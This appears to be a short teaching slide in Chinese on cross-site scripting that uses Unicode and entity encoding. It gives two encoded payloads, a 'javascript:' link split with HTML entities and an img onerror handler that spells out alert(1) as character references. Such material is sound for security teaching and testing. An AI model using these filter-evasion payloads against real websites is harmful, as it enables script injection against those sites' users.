

# XSS和Unicode
混合html和JS的unicode
结合urlencode
例子：
<a href="javasc&NewLine;ript&colon;alert(1)">click</a>
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">